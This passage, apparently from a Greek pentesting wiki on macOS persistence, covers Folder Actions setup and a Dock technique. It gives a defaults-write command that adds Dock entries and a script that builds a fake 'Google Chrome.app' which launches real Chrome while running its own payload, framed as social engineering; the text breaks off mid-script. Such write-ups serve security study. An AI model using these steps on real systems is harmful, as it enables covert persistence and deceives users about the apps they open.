 Τώρα που έχουμε ένα κενό περιβάλλον

3. Αντιγράψτε το αρχείο αντιγράφου ασφαλείας: `cp /tmp/com.apple.FolderActionsDispatcher.plist ~/Library/Preferences/`
4. Ανοίξτε την εφαρμογή Folder Actions Setup για να χρησιμοποιήσετε αυτήν τη ρύθμιση: `open "/System/Library/CoreServices/Applications/Folder Actions Setup.app/"`

{% hint style="danger" %}
Και αυτό δεν λειτούργησε για μένα, αλλά αυτές είναι οι οδηγίες από το writeup:(
{% endhint %}

### Dock συντομεύσεις

Writeup: [https://theevilbit.github.io/beyond/beyond\_0027/](https://theevilbit.github.io/beyond/beyond\_0027/)

* Χρήσιμο για παράκαμψη του sandbox: [✅](https://emojipedia.org/check-mark-button)
* Αλλά πρέπει να έχετε εγκαταστήσει μια κακόβουλη εφαρμογή μέσα στο σύστημα
* TCC παράκαμψη: [🔴](https://emojipedia.org/large-red-circle)

#### Τοποθεσία

* `~/Library/Preferences/com.apple.dock.plist`
* **Ενέργεια ενεργοποίησης**: Όταν ο χρήστης κάνει κλικ στην εφαρμογή μέσα στο dock

#### Περιγραφή & Εκμετάλλευση

Όλες οι εφαρμογές που εμφανίζονται στο Dock καθορίζονται μέσα στο plist: **`~/Library/Preferences/com.apple.dock.plist`**

Είναι δυνατόν να **προστεθεί μια εφαρμογή** μόνο με:
```bash
# Add /System/Applications/Books.app
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/System/Applications/Books.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'

# Restart Dock
killall Dock
```
{% endcode %}

Χρησιμοποιώντας κάποια **κοινωνική μηχανική** μπορείτε να **προσωποποιήσετε για παράδειγμα το Google Chrome** μέσα στη γραμμή εργασιών και να εκτελέσετε πραγματικά το δικό σας σενάριο:
```bash
#!/bin/sh

# THIS REQUIRES GOOGLE CHROME TO BE INSTALLED (TO COPY THE ICON)

rm -rf /tmp/Google\ Chrome.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Google\ Chrome.app/Contents/MacOS
mkdir -p /tmp/Google\ Chrome.app/Contents/Resources

# Payload to execute
echo '#!/bin/sh
open /Applications/Google\ Chrome.app/ &
touch /tmp/ImGoogleChrome' > /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

chmod +x /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

# Info.plist
cat << EOF > /tmp/Google\ Chrome.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
```